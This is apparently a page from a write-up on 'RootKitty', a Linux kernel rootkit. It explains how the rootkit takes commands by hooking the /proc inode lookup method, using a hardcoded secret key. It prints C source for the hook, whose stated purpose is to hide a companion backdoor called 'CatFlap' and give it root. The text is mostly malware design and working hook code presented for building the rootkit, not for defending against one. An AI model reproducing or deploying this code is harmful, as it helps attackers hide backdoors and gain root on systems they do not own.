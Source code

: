 \documentclass[11pt]{article}
\begin{document}
\subsection{Establishing Channel - Hooking INode Lookup}
RootKitty handles command and control by hooking inode lookup on `/proc'. If a process looks up a certain \texttt{SECRET_KEY} (`HelloKittyIsTheBest') it will fetch a command number from the full lookup name, in the form `HelloKittyIsTheBest-CMD\_NUM' and execute the specified command. The hooking mechanism is the same as when we hooked iterate, except we're instead hooking the `lookup' method specified by the \texttt{struct inode_operation} for `/proc':

\begin{verbatim}
/**
 * Given a filepath, returns a pointer to its inode_operations struct.
 *
 * @param path The filepath to retreive the i_op struct pointer from.
 * @return A pointer to an i_op struct for path if it exists, NULL otherwise.
 */
struct inode_operations *get_iop(const char *path) {
    struct file *f;

    if ((f = filp_open(path, O_RDONLY, 0)) == NULL) return NULL;

    struct inode_operations *ret = (struct inode_operations *) f->f_path.dentry->d_inode->i_op;
    filp_close(f, 0);

    return ret;
}

/**
 * Hijacks the procfs in order to receive commands from our backdoor client. In
 * this case we're using inode lookup in "/proc" as our command channel.
 *
 * This function works by finding the function pointer to the lookup method of
 * the "/proc" directory and performing an inline hook to modify its prologue
 * bytes to transfer execution to our replacement lookup routine.
 */
void unlock_catflap(void){

    // Check we're operating on a 3.1.1 kernel and above
    #if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 1, 1)

        // Perform our dastardly switcheroo of proc->lookup with our own.
        asm_hook_create(get_iop("/proc")->lookup, proc_lookup);
    #endif
}
\end{verbatim}
As of writing, there is only one command which is to hide an accompanying backdoor `CatFlap' and grant it root.
\end{document}
